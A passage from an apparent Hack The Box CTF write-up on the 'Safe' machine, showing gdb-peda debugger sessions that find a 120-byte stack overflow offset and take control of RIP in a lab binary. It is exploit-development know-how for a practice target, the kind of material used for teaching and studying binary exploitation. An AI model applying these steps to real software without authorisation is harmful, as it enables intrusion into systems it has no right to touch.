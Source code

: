    Stopped reason: SIGSEGV
    0x00000000004011ac in main ()
    

It’s stuck on the `ret`, which is trying to move the top value on the stack
into RIP, but that value isn’t a valid memory address, so it throws a
`SIGSEGV`.

I can now enter that pattern that’s on the top of the stack to find the
offset:

    
    
    gdb-peda$ pattern_offset jAA9AAOA
    jAA9AAOA found at offset: 120
    

I can test by creating a new fill of 120, and then adding eight `b` at the
end:

    
    
    gdb-peda$ pattern_create 120     
    'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA'
    gdb-peda$ r                  
    Starting program: /media/sf_CTFs/hackthebox/safe-10.10.10.147/myapp 
    [Detaching after vfork from child process 15848]
     14:23:47 up 13 days,  2:08, 32 users,  load average: 1.49, 1.32, 1.15
    
    What do you want me to echo back? AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAbbbbbbbb
    AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAbbbbbbbb
    

When I hit enter, I crash, with eight `b` waiting to load into RIP at the top
of the stack:

    
    
    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    RAX: 0x0 
    RBX: 0x0 
    RCX: 0x7ffff7ecead4 (<__GI___libc_write+20>:    cmp    rax,0xfffffffffffff000)
    RDX: 0x7ffff7f9f580 --> 0x0 
    RSI: 0x405260 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAbbbbbbbb\n")
    RDI: 0x0 
    RBP: 0x41414e4141384141 ('AA8AANAA')
    RSP: 0x7fffffffdfb8 ("bbbbbbbb")
    RIP: 0x4011ac (<main+77>:       ret)
    R8 : 0x81 
    R9 : 0x0 
    R10: 0x4003e0 --> 0x6972700073747570 ('puts')
    R11: 0x246 
    R12: 0x401070 (<_start>:        xor    ebp,ebp)
    R13: 0x7fffffffe090 --> 0x1 
    R14: 0x0 
    R15: 0x0
    EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
       0x4011a1 <main+66>:  call   0x401030 <puts@plt>
       0x4011a6 <main+71>:  mov    eax,0x0
       0x4011ab <main+76>:  leave  
    => 0x4011ac <main+77>:  ret    
       0x4011ad:    nop    DWORD PTR [rax]
       0x4011b0 <__libc_csu_init>:  push   r15
       0x4011b2 <__libc_csu_init+2>:        mov    r15,rdx
       0x4011b5 <__libc_csu_init+5>:        push   r14